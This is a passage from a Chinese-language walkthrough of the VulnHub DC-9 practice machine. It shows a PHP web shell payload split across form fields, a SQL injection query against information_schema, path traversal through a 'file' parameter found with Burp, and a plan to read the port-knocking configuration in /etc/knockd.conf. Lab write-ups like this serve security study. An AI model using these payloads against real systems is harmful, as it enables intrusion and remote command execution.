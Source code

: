 ![](D:\stu\vulnhub\DC靶场\pic-9\14.jpg)

那么在前面使用`union`查询的时候，数字`2`和`3`是在一行显示，并且中间有空格的，那么可以根据这个进行拼接反弹`shell`的代码

```shell
firstname:
	<?php 
lastname:
	system($_REQUEST["cmd"]);?>
```

上传成功，但是无法利用

![](D:\stu\vulnhub\DC靶场\pic-9\15.jpg)

可能`general_log`是关闭的，通过前面的注入构造下面的语句进行查看

```
tom' union select variable_name, variable_value,3,4,5,6 FROM information_schema.global_variables WHERE variable_name LIKE '%general%'#
```

![](D:\stu\vulnhub\DC靶场\pic-9\16.jpg)

# 路径遍历漏洞

再次回到这里，还是观察，发现登录后，依然有`File does not exist`，其他界面没有，登录后才有，说明还是调用某个文件，该文件不存在了。

这里我刚开始的时候就测试过，但是没出数据，我还以为是登录问题呢

而事实证明，可能就是，或者说我自己忘记了加入某个东西

在使用`ffuf`和`wfuzz`爆破测试一段时间后，突然就登录不上了，可能是爆破的原因？

> 这里重装靶机，后面IP地址变更为`192.168.10.13`

这里在使用`ffuf`和`wfuzz`，不知道什么原因，即使加上登录条件，也是无法测试出，但是明明就有，换用`burp`，因为本人电脑的原因，这里在物理机上使用`burp`

这里抓取登录后的数据包，然后设置参数进行爆破

![](D:\stu\vulnhub\DC靶场\pic-9\18.jpg)

发现传参为`file`，并且可以看到靶机内的用户很多

![](D:\stu\vulnhub\DC靶场\pic-9\19.jpg)

# 通过路径遍历获取kncok配置文件

但是前面进行端口扫描的时候，`ssh`服务显示是过滤的，说明目标可能对请求进行相关操作，数据库或者其他，

但是在打靶，一般都是所谓的"敲门"，也就是`kncok`，进行`ai`搜索

>`knock`是一个用于端口敲门（Port Knocking）的工具。端口敲门是一种通过按特定顺序连接一系列端口来触发防火墙规则或开启隐藏服务的技术。它允许用户在防火墙后隐藏服务，只有当按照正确的顺序 “敲门”（访问特定端口序列）时，才会允许对目标服务端口的访问。
>
>配置文件通常位于`/etc/knockd.conf`或`/etc/knock.conf`
